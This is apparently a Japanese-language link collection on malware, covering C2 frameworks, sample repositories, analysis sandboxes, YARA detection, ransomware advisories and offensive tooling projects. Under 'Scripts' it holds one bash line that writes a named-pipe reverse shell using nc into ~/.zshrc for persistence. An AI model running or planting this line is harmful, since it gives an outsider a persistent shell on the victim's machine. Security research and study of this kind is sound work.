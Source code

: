 # マルウェア

https://malpedia.caad.fkie.fraunhofer.de/

## C2

https://howto.thec2matrix.com/

https://github.com/BishopFox/sliver

## Back Door

https://github.com/restran/BlueShell

## 検体の入手

https://objective-see.org/malware.html

[マルウェア検体を入手する方法](https://www.japan-secure.com/entry/blog-entry-198.html)

[eicar test file](https://www.eicar.org/?page_id=3950)

[SourceFinder: Finding Malware Source-Code from Publicly Available Repositories in GitHub](https://www.usenix.org/system/files/raid20-rokon.pdf)

https://virusshare.com/

https://urlhaus.abuse.ch/

https://github.com/topics/malware-samples

https://github.com/ytisf/theZoo

https://github.com/rshipp/awesome-malware-analysis

https://github.com/vxunderground/MalwareSourceCode

https://github.com/offensive-security/exploitdb

https://github.com/timb-machine/linux-malware

https://artifacthub.io/packages/container/malware-cryptominer-container/malware-cryptominer-container

## 検体

- rootkit
  - https://github.com/enzolovesbacon/inficere
- backDoor
  - https://github.com/mosca1337/OSX-Peristant-BackDoor

## マルウェア解析

- [Free Automated Malware Analysis Sandboxes and Services](https://zeltser.com/automated-malware-analysis/)
  - https://any.run/
- https://www.sans.org/blog/how-you-can-start-learning-malware-analysis/
- [マルウェア解析に必要な素養](https://hackmd.io/@K-atc/S1kLEr5x)
- ブログ
  - https://www.mbsd.jp/research/malware/#contents
  - [東京五輪に関係する日本語のファイル名を持つマルウェア(ワイパー)の解析](https://www.mbsd.jp/research/20210721/blog/)

## Ransomeware

[Ransomware Attacks and Types – How Encryption Trojans Differ](https://www.kaspersky.com/resource-center/threats/ransomware-attacks-and-types)

[ランサムウェア攻撃で悪用された正規ツールを解説](https://blog.trendmicro.co.jp/archives/28681)

https://www.cisa.gov/stopransomware

[侵入型ランサムウェア攻撃を受けたら読むFAQ](https://www.jpcert.or.jp/magazine/security/ransom-faq.html)

## 脅威データベース

https://www.trendmicro.com/vinfo/jp/threat-encyclopedia/

https://urlhaus.abuse.ch/

## マルウェア検知ツール

https://github.com/VirusTotal/yara

https://blog.malwarebytes.com/security-world/technology/2017/09/explained-yara-rules/

https://github.com/hasherezade/hollows_hunter

## VirusTotal

https://www.virustotal.com/gui/

https://keepmealive.jp/about-virustotal/

## マルウェア、ウイルス一覧

- Emotet
  - https://www.ipa.go.jp/security/announce/20191202.html
  - https://github.com/JPCERTCC/EmoCheck
- Phoenix Cryptolocker
  - https://cloudsek.com/threatintelligence/phoenix-cryptolocker-ransomware-threat-intel-advisory/
- Kinsing
  - https://attack.mitre.org/software/S0599
  - https://blog.aquasec.com/threat-alert-kinsing-malware-container-vulnerability
  - https://www.cyberark.com/resources/threat-research-blog/kinsing-the-malware-with-two-faces
- Doki
  - https://www.securecoding.com/blog/all-about-doki-malware/

## Scripts

```bash
# zshrc で永続化
echo '(rm ./pipe; mkfifo ./pipe; cat ./pipe | /bin/sh -i 2>&1|nc 192.168.205.3 1337 > ./pipe &)' >> ~/.zshrc

```

## YARA Rules

https://github.com/JPCERTCC/jpcert-yara

https://github.com/Yara-Rules/rules

https://malpedia.caad.fkie.fraunhofer.de/

## AntiVirus

https://github.com/VirusTotal/yara

https://github.com/Cisco-Talos/clamav

https://github.com/deepfence/YaraHunter

## Development

https://github.com/redcode-labs/Coldfire

https://github.com/tiagorlampert/CHAOS

https://github.com/EgeBalci/ARCANUS

https://github.com/EgeBalci/EGESPLOIT

https://github.com/Enelg52/OffensiveGo

https://github.com/trickster0/OffensiveRust

## Tools

https://github.com/sweetsoftware/Ares

## Sandbox

https://github.com/kevoreilly/CAPEv2

## 参考

[Goで書かれたマルウェアが増加傾向--APTと犯罪グループの両方が利用](https://japan.zdnet.com/article/35167172/)

[ストップ！ ランサムウェア　ランサムウェア特設ページ - NISC](https://security-portal.nisc.go.jp/stopransomware/)

[Ransomware as a Service Innovation Curve](https://www.coveware.com/blog/2022/1/26/ransomware-as-a-service-innovation-curve)
